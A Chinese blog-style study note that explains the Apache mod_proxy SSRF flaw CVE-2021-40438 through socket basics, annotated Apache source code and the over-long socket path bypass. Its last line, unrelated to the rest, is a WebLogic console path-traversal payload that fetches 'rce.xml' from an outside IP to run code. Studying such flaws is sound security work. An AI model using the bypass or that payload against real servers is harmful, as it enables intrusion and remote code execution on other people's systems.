

这篇文章是对CVE-2021-4043的分析
套接字
第一步就卡了，所以先学一下套接字的基本概念
定义：
所谓套接字(Socket)，就是对网络中不同主机上的应用进程之间进行双向通信的端点的抽象。一个套接字就是网络上进程通信的一端，提供了应用层进程利用网络协议交换数据的机制。从所处的地位来讲，套接字上联应用进程，下联网络协议栈，是应用程序通过网络协议进行通信的接口，是应用程序与网络协议根进行交互的接口
其实上面的不用看，重点就一句，套接字是==应用进程双向通信的端点==

真正理解靠上图
套接字，就是ip端口套接在一起，所以叫套接字【还挺名副其实的】
在计算机网络中我们都知道，ip作用是寻找主机，端口作用是寻找应用进程，在网络中，IP和端口唯一确定一个应用进程，作为ip和端口的套接，说套接字是应用进程通信的端点没有一点问题，通过套接字就可以唯一确定一个应用进程
+++++++ 以下为定义内容【虽说没必要贴也不需要看，不过看到了不贴进博客总让人不爽】并不需要看 ++++++
我把让我不贴不爽的都标出来，看谁还说我博客全复制粘贴
套接字主要类型
要通过互联网进行通信，至少需要一对套接字
++++定义内容结束++++
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
UNIX域套接字
UNIX和其他套接字只有一个区别，就是UNIX套接字用于本地进程间的通信
+++++++
定义
++++++
UNIX域套接字仅仅复制数据；它们并不执行协议处理，不需要添加或删除网络报头，无需计算检验和，不要产生顺序号，无需发送确认报文。
CVE-2021-40438漏洞原理
参考文章:
https://www.leavesongs.com/PENETRATION/apache-mod-proxy-ssrf-cve-2021-40438.html
https://firzen.de/building-a-poc-for-cve-2021-40438
首先就是PHP和apache之间的三种交互方式
- Apache以CGI的形式运行PHP脚本
- PHP以mod_php的方式作为Apache的一个模块运行
- PHP以FPM的方式运行为独立服务，Apache使用mod_proxy_fcgi模块作为反代服务器将请求代理给PHP-FPM
+++++
这里我之前说过很多次，p牛的文章也讲的很详细，不做过多的解释
漏洞产生在第三种方式
+++++
Apache在配置反代的后端服务器时，有两种情况：
- 直接使用某个协议反代到某个IP和端口，比如
ProxyPass / "http://localhost:8080" - 使用某个协议反代到unix套接字，比如
ProxyPass / "unix:/var/run/www.sock|http://localhost:8080/"
第一个就是正常的代理语句，反代网站根目录下的内容到http://localhost:8080
第二个则是unix套接字语句，将网站根目录内容反代到unix的/var/run/www.sock文件，然后通过管道符传输给`http://localhost:8080`
.sock文件是程序自己创建的，在一切皆文件的Unix-like系统中，进程生产的socket通过socket文件来表示，进程通过向socket文件读写内容实现消息的传递。
无论是mysql，uwsgi还是nginx都会用到sock文件
代码审计
明白了上面的原理，接下来像学的更深入，就需要进行代码审计来分析原理
++++
+++
// modules/proxy/proxy_util.c
// fix_uds_filename
/*
* In the case of the reverse proxy, we need to see if we
* were passed a UDS url (eg: from mod_proxy) and adjust uds_path
* as required.
*/
static void fix_uds_filename(request_rec *r, char **url)
{
char *ptr, *ptr2;
if (!r || !r->filename) return; // 这里判断传入的r中filename是否为空
if (!strncmp(r->filename, "proxy:", 6) && // 传入filename是否为proxy:
(ptr2 = ap_strcasestr(r->filename, "unix:")) && // filename的字符串中是否含有关键字unix:
(ptr = ap_strchr(ptr2, '|'))) { // 关键字后是否存在|
apr_uri_t urisock;
apr_status_t rv;
*ptr = '\0';
rv = apr_uri_parse(r->pool, ptr2, &urisock);
if (rv == APR_SUCCESS) {
char *rurl = ptr+1;
char *sockpath = ap_runtime_dir_relative(r->pool, urisock.path);
apr_table_setn(r->notes, "uds_path", sockpath); // 解析unix:后的内容，设置为uds_path值
*url = apr_pstrdup(r->pool, rurl); // 解析| 后的内容，设置为rurl值
memmove(r->filename+6, rurl, strlen(rurl)+1);
ap_log_rerror(APLOG_MARK, APLOG_TRACE2, 0, r,
"*: rewrite of url due to UDS(%s): %s (%s)",
sockpath, *url, r->filename);
}
else {
*ptr = '|';
}
}
}
上面只是php底层对unix反代请求的解析代码，虽然漏洞的最终执行点在这里，但这里并不能让我们明白漏洞为什么可以这么用
想弄明白这一点，还需要看r->filename的来源
// mod_proxy_http的proxy_http_canon函数
static int proxy_http_canon(request_rec *r, char *url)
{
//第一部分
/*对协议的类型进行识别，并使scheme赋值为对应的协议*/
if (strncasecmp(url, "http:", 5) == 0) {
url += 5;
scheme = "http";
}
else if (strncasecmp(url, "https:", 6) == 0) {
url += 6;
scheme = "https";
}
else {
return DECLINED;
}
port = def_port = ap_proxy_port_of_scheme(scheme);
//第二部分
/*获取到scheme、host、port、path、search等几个URL的组成变量*/
ap_proxy_canon_netloc(r->pool, &url, NULL, NULL, &host, &port);
switch (r->proxyreq) {
default: /* wtf are we doing here? */
case PROXYREQ_REVERSE:
if (apr_table_get(r->notes, "proxy-nocanon")) {
path = url; /* this is the raw path */
}
else {
path = ap_proxy_canonenc(r->pool, url, strlen(url),
enc_path, 0, r->proxyreq);
search = r->args;
}
break;
case PROXYREQ_PROXY:
path = url;
break;
}
if (path == NULL)
return HTTP_BAD_REQUEST;
if (port != def_port)
apr_snprintf(sport, sizeof(sport), ":%d", port);
else
sport[0] = '\0';
if (ap_strchr_c(host, ':')) { /* if literal IPv6 address */
host = apr_pstrcat(r->pool, "[", host, "]", NULL);
}
// 第三部分
/*对得到的组成变量进行拼接*/
r->filename = apr_pstrcat(r->pool, "proxy:", scheme, "://", host, sport,
"/", path, (search) ? "?" : "", (search) ? search : "", NULL);
return OK;
}
这里我没有对源码进行调试跟进，对函数功能的解析并没有更详细，这部分可以直接看p牛的文章
在第二部分解析的部分，很明显可以看出proxy:后的内容我们全部都可以控制
所以根据之前对fix_uds_filename函数的分析，通过人为的写入path或者search ，就可以控制反代的后端地址
绕过限制
这里还是之前提到的问题，unix套接字格式为uinx:/var/run/www.sock | http://localhost:8080/
我们想要通过控制反代服务器来进行SSRF攻击，必然需要绕过管道符前面的内容/var/run/www.sock
++++
这里直接引用p牛的文章
++++
当ap_runtime_dir_relative返回为null，uds_path值就为空
在经过后面的函数判断时，会因为缺少uds_path而让后端将unix套接字当作普通的tcp套接字处理
那么目的又明确了一点，我们需要找一个方法，使ap_runtime_dir_relative返回为空
长度绕过
ap_runtime_dir_relative函数最后引用了apr库中的apr_filepath_merge函数
在这个函数中，后端对传入路径的长度进行了处理
rootlen = strlen(rootpath); // 得到跟路径的长度
maxlen = rootlen + strlen(addpath) + 4; // 得到传入路径的总长
// 4表示开始、根之后和结束时的斜杠，加上尾部的null
if (maxlen > APR_PATH_MAX) { // 判断得到的总长是否大于APR_PATH_MAX
return APR_ENAMETOOLONG; // 是则返回路径过长
}
所以当我们传入的内容长度大于APR_PATH_MAX定义的长度，uds_path就会为空
Apache不再发送请求给unix套接字，此时就可以执行SSRF
修复
++++
+++++
这个修复的过程也是告诉我们，漏洞是否存在，和用户可控的输入存在直接的关系
而代码审计中需要寻找的，也就是这些输入可控的部分
扩展
p牛在文章的最后写了几个扩展，其中本地unix套接字的好处是可以攻击类似于Docker、Supervisor这样的本地服务。
这点让我很感兴趣
console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(“http://1.15.224.114/rce.xml")